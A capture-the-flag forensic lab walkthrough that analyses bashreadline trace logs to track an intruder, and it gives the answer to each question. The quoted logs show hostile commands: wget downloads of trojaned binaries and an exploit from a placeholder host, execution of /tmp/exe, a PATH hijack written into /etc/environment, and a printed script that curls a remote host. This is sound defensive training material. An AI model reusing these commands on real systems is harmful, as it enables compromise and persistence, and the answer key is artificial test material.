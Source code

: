 #### 7. Bashreadline: Trace Analysis

----

Performance monitoring and tracking tools can provide a wealth of information about a running system. In some cases, they can help identify anomalies which could have been caused by a security incident.

----

In this lab, we will analyze [`Bashreadline script's`](https://github.com/iovisor/bcc/blob/master/tools/bashreadline.py) trace logs to unearth suspicious activity. Please start the lab, answer the below questions and submit the flags to verify:

- A suspicious user had logged into the system and had downloaded some files using wget. What is the name of that user?

```sh
root@attackdefense:~# less logs
TIME      PID    COMMAND
23:11:11  75190  apt-get update && apt-get upgrade
23:11:16  75190  ./take-backup.sh
23:11:17  72741  su alice
23:11:17  75190  ./commit-backup.sh
23:11:18  72741  whoami
23:11:18  75190  ./push-backup.sh
23:11:19  72741  mkdir /tmp/.bin/
23:11:20  72741  wget -O /tmp/.bin/ls http://random-url.xyz.local/?getbin=ls
23:11:26  72741  wget -O /tmp/.bin/ps http://random-url.xyz.local/?getbin=ps
23:11:32  72741  wget -O /tmp/.bin/bash http://random-url.xyz.local/?getbin=bash
23:11:37  75190  apt-get install mysql-server
23:11:38  72741  wget -O /tmp/.bin/cd http://random-url.xyz.local/?getbin=cd
23:11:44  72741  wget -O /tmp/.bin/whoami http://random-url.xyz.local/?getbin=whoami
23:11:50  72741  wget -O /tmp/.bin/sudo http://random-url.xyz.local/?getbin=sudo
23:11:56  72741  chmod +x /tmp/.bin/*
23:11:57  72741  echo $PATH
23:11:58  72741  export PATH=/tmp/.bin:$PATH
23:11:59  72741  echo "/tmp/.bin:$PATH" > /etc/environment | sudo tee -a /etc/environment
23:12:02  72741  wget -O /tmp/exe http://random-url.xyz.local/?getexploit=x86-64_16.04_4.15.0-52-
23:12:08  72741  chmod +x /tmp/exe
23:12:09  72741  /tmp/exe
23:12:10  75190  apt-get install git cmake
23:12:11  72741  su ratchel
23:12:11  75190  apt-get autoremove
23:12:12  72741  su ratchel
23:12:12  75190  git init /opt/deployment
23:12:13  72741  su ratchel
23:12:13  75190  cd /opt/deployment
23:12:14  72741  su ratchel
23:12:14  75190  git add *
23:12:15  72741  su ratchel
23:12:15  75190  git status
23:12:16  75190  git commit -m "Major bugfixes -- v3.1.0"
23:12:16  72741  su ratchel
23:12:17  72741  su ratchel
23:12:17  75190  git status
23:12:18  75190  git log
23:12:18  72741  su ratchel
23:12:19  72741  su ratchel
23:12:19  75190  git push remote origin
23:12:20  72741  su ratchel
23:12:20  75190  git status
23:12:20  75190  apt-get install python2.7 python2.7-pip
23:12:21  72741  su ratchel
23:12:21  75190  pip install pycrypto
23:12:22  75190  pip install pycrypto --user
23:12:22  72741  su ratchel
23:12:23  72741  su ratchel
23:12:23  75190  apt-get install dnsutils
23:12:24  72741  su ratchel
23:12:24  75199  apt-get install firefox
23:12:25  72741  su ratchel
23:12:25  75199  apt-get install feh
23:12:26  72741  su ratchel
23:12:26  75190  reset
23:12:27  72741  su ratchel
23:12:27  75190  ifconfig
23:12:28  72741  su ratchel
23:12:28  75190  netstat -antp
23:12:29  72741  su ratchel
23:12:29  75199  firefox stackoverflow.com
23:12:30  72741  su ratchel
logs
```

```sh
root@attackdefense:~# less logs
root@attackdefense:~# less logs
root@attackdefense:~#
root@attackdefense:~#
root@attackdefense:~# grep 72741 logs
23:11:17  72741  su alice
23:11:18  72741  whoami
23:11:19  72741  mkdir /tmp/.bin/
23:11:20  72741  wget -O /tmp/.bin/ls http://random-url.xyz.local/?getbin=ls
23:11:26  72741  wget -O /tmp/.bin/ps http://random-url.xyz.local/?getbin=ps
23:11:32  72741  wget -O /tmp/.bin/bash http://random-url.xyz.local/?getbin=bash
23:11:38  72741  wget -O /tmp/.bin/cd http://random-url.xyz.local/?getbin=cd
23:11:44  72741  wget -O /tmp/.bin/whoami http://random-url.xyz.local/?getbin=whoami
23:11:50  72741  wget -O /tmp/.bin/sudo http://random-url.xyz.local/?getbin=sudo
23:11:56  72741  chmod +x /tmp/.bin/*
23:11:57  72741  echo $PATH
23:11:58  72741  export PATH=/tmp/.bin:$PATH
23:11:59  72741  echo "/tmp/.bin:$PATH" > /etc/environment | sudo tee -a /etc/environment
23:12:02  72741  wget -O /tmp/exe http://random-url.xyz.local/?getexploit=x86-64_16.04_4.15.0-52-
23:12:08  72741  chmod +x /tmp/exe
23:12:09  72741  /tmp/exe
23:12:11  72741  su ratchel
23:12:12  72741  su ratchel
23:12:13  72741  su ratchel
23:12:14  72741  su ratchel
23:12:15  72741  su ratchel
23:12:16  72741  su ratchel
23:12:17  72741  su ratchel
23:12:18  72741  su ratchel
23:12:19  72741  su ratchel
23:12:20  72741  su ratchel
23:12:21  72741  su ratchel
23:12:22  72741  su ratchel
23:12:23  72741  su ratchel
23:12:24  72741  su ratchel
23:12:25  72741  su ratchel
23:12:26  72741  su ratchel
23:12:27  72741  su ratchel
23:12:28  72741  su ratchel
23:12:29  72741  su ratchel
23:12:30  72741  su ratchel
23:12:31  72741  su ratchel
23:12:32  72741  su ratchel
23:12:33  72741  su ratchel
23:12:34  72741  su ratchel
23:12:35  72741  su ratchel
23:12:36  72741  su ratchel
23:12:37  72741  su ratchel
23:12:38  72741  su ratchel
23:12:39  72741  su ratchel
23:12:40  72741  su ratchel
23:12:41  72741  su ratchel
23:12:42  72741  su ratchel
23:12:43  72741  su ratchel
23:12:44  72741  su ratchel
23:12:45  72741  su ratchel
23:12:46  72741  su ratchel
23:12:47  72741  su ratchel
23:12:48  72741  su ratchel
23:12:51  72741  wget -O /tmp/.bin/su http://random-url.xyz.local/?getbin=su
23:12:56  72741  chmod +x /tmp/.bin/su
23:12:57  72741  su ratchel
23:13:00  72741  whoami
23:13:01  72741  passwd
23:13:31  72741  sudo su
23:13:34  72741  modprobe random-dummy-module
23:13:48  72741  exit
root@attackdefense:~#
```

```
alice
```

- The suspicious user prepended a directory to the PATH environment variable. What is the complete path of that directory?

```
# root@attackdefense:~# grep 72741 logs
/tmp/.bin
```

- The suspicious user downloaded some files from a remote machine using wget. What is the domain name of the remote machine?

```
# root@attackdefense:~# grep 72741 logs
random-url.xyz.local
```

- The suspicious user had also downloaded a script from the same remote machine in /tmp directory. That script was executed as soon as it was downloaded. Provide the complete path of that script.

```
# root@attackdefense:~# grep 72741 logs
/tmp/exe
```

- Retrieve the flag from the script downloaded in /tmp directory.

```sh
root@attackdefense:~# grep 72741 logs
```

```sh
root@attackdefense:~# cat /tmp/exe
#!/bin/bash

#FLAG: 72831b53f0bc6f677815a399d3007f12

curl http://another-random-server.dev.local/?execute=true&sys=x86_64&os=ubuntu-16.04-linux
root@attackdefense:~#
```

```
72831b53f0bc6f677815a399d3007f12
```

- The suspicious user broke into another user’s account after a couple of unsuccessful attempts. What is the name of the compromised user?

```
# root@attackdefense:~# grep 72741 logs
ratchel
```

- What is the name of the kernel module loaded by the suspicious user?

```
# root@attackdefense:~# grep 72741 logs
random-dummy-module
```

----

###### Reference

- [Bashreadline script](https://github.com/iovisor/bcc/blob/master/tools/bashreadline.py)
- [Bashreadline Examples](https://github.com/iovisor/bcc/blob/master/tools/bashreadline_example.txt)
- [BCC Tools](https://github.com/iovisor/bcc)

----

EOF

